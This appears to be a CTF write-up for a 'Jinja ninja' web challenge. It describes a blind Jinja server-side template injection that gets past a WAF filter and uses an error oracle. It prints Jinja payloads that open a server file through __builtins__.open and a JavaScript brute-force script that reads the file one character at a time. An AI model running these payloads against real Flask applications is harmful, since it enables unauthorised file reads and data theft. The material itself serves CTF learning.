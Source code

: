 ```yaml
---
title: "Jinja ninja"
layout: page
---
```


- Road to Valhalla part 2
- hard

In part 1 of Road to Valhalla, you managed to capture another drawing, with a note on it.

> If you seek to find Valhalla, visit this website, and buy your ticket now: [https://jinja-ninja.secchallenge.crysys.hu](https://jinja-ninja.secchallenge.crysys.hu)

As you check the website, it feels a bit fishy. As a citizen of the wastes, you feel it as your duty to check if the travel agency is valid. Find a way to access files on the server you might find coordinates of Valhalla.

[https://jinja-ninja.secchallenge.crysys.hu](https://jinja-ninja.secchallenge.crysys.hu)

_author: Pepe_

## Notes
{% raw %}
<del>**I could not solve this challenge**</del>

`Jinja` instantly triggers me to think about SSTI and Flask. Sadly, I could not find *ANY* reflection on the webpage we are given, it just returned the same page no matter what I've sent to it.

(Just solved it after writing those lines above)

Basically, we don't have a reflection, so we can't simply confirm if we have a SSTI, but the name is a strong hint to that.

For most form data, you get `Sorry site under construction booking is not available.` as a response.

I've tried injecting `{{5*5}}` as any parameter, and I've got `The WAF catched that one.` - so some part of that is filtered, and it turns out that `{{` and `flag` are forbidden in the input.

After googling `flask blind ssti` I've found [this page](https://gist.github.com/camas/d11da038562e6e4547e9f5669d2f6cfe), witch details a method of bypassing the `{{` filter.

That page's method kinda works here, but we still don't get anything back. I've tried `{% for i in range(5/0) %}1{% endfor %}` and got `Something went wrong, try again later!` - so we can leak one bit of information at a time.

I was not sure where can the flag be, my initial guess was the `config` oject. `{% for i in range(5 if config else 5/0) %}1{% endfor %}` confirmed it exits, but it had only one key (`{% for i in range(5 if [config.keys()][1] else 5/0) %}1{% endfor %}`), and that was `ENV` (`{% for i in range(5 if config["ENV"]=="production" else 5/0) %}1{% endfor %}`).

From the same gist I've learned that I can get access to some of the globals, so I've tried opening the file `flag`. Bypassing the filtering for `flag` was trivial: `{% for i in range(5 if get_flashed_messages.__globals__.__builtins__.open("FLAG".lower()) else 5/0) %}1{% endfor %}`

So we can just open the file! Let's check the first character: `{% for i in range(5 if get_flashed_messages.__globals__.__builtins__.open("FLAG".lower()).read()[0]=="c" else 5/0) %}1{% endfor %}` - `c` as we expected from the flag format.

I've took some time to get it's length by binary-searching from 500, and found it's 145. After that, I've wrote a script to use the previous tactic to get the full flag.

Sadly, my script (written in python) did not work for some reason, so I re-wrote it in JS and copy-pasted it in the console:

```js
const printable = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c";

async function solve(length = 145) {
    let FLAG = "";
    while (FLAG.length < length) {
        for (let c of printable) {
            let formData = new FormData();
            const payload = `{% for i in range(5 if get_flashed_messages.__globals__.__builtins__.open("FLAG".lower()).read()[${FLAG.length}]=="${c}" else 5/0) %}1{% endfor %}`;
            //console.log(payload);
            formData.append('name', payload);
            formData.append('email', '');
            formData.append('faction', '');
            formData.append('profession', '');
            formData.append('preferences', '');
            
            const resp = await fetch("submit",{body: formData,method: "post"})
            const text = await resp.text();
            if (text.includes("Sorry site under construction")) {
                FLAG = FLAG + c;
                console.log(FLAG);
                break;
            }
        }       
    }
}
```
{% endraw %}
And that just got me the flag...

(also, I heard others used this blind SSTI to write a file in the web folder with the flag inside)